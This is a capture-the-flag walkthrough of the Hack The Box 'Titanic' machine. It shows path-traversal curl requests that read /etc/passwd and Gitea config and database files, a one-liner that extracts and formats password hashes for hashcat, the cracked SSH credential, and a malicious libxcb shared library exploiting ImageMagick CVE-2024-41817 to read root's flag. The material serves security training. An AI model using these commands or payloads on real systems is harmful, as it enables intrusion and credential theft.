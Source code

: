 # Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

When we confirm a trip, we download the ticket.

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

Since the ticket read function is not implemented securely, we can replace the ticket file name with the one we want to read. 

Try to read `/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

We can see that there's a developer user.

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)

Let's try to read user flag by `developer`

Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

Or by using Curl

    curl --path-as-is 'http://titanic.htb/download?ticket=/etc/hosts'

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

We can find subdomains for our host.

Add `dev` subdomain to `/etc/hosts` on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

http://dev.titanic.htb/explore/repos

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

From the docker-compose.yml file, we get the path to the gitea directory

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

    sqlite3 database.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

![image](https://github.com/user-attachments/assets/a9e252e0-c0e2-4c04-80f9-47c651ef21a0)

`administrator`:`sha256`:`50000`:`LRSeX70bIM8x2z48aij8mw==`:`y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`

`developer`:`sha256`:`50000`:`i/PjRSt4VE+L7pQA1pNtNA==`:`5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Hashcat

`hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user`
    
    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
    Hash.Target......: gitea.hashes
    Time.Started.....: Sat Feb 22 11:19:03 2025 (21 secs)
    Time.Estimated...: Sun Feb 23 14:01:35 2025 (1 day, 2 hours)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      298 H/s (2.90ms) @ Accel:256 Loops:32 Thr:1 Vec:8
    Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
    Progress.........: 6144/28688770 (0.02%)
    Rejected.........: 0/6144 (0.00%)
    Restore.Point....: 3072/14344385 (0.02%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:544-576
    Candidate.Engine.: Device Generator
    Candidates.#1....: adriano -> class08
    Hardware.Mon.#1..: Util: 79%
    
    sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

SSH

`developer`:`25282528`

    ssh developer@titanic.htb

![image](https://github.com/user-attachments/assets/1c3f49e2-70b4-425a-8ccb-2ae58a39f6f8)

    find / -writable -type d 2>/dev/null

![image](https://github.com/user-attachments/assets/dc09cd23-fdbb-466a-9694-df5aec98e8ea)

![image](https://github.com/user-attachments/assets/fd13e376-4dc5-442b-935d-c17914022cd1)

![image](https://github.com/user-attachments/assets/bb69e97d-3805-4096-9082-583574a2bdfa)

CVE-2024-41817

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![image](https://github.com/user-attachments/assets/3a07cc08-a5e8-4e5e-9129-41fabf153378)

/opt/app/static/assets/images/

exploit 

    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void init(){
        system("cp /root/root.txt root.txt; chmod 754 root.txt");
        exit(0);
    }
    EOF

Get the root flag!

![image](https://github.com/user-attachments/assets/dfb2ea6f-058d-4184-83d8-4aa951fbcc00)
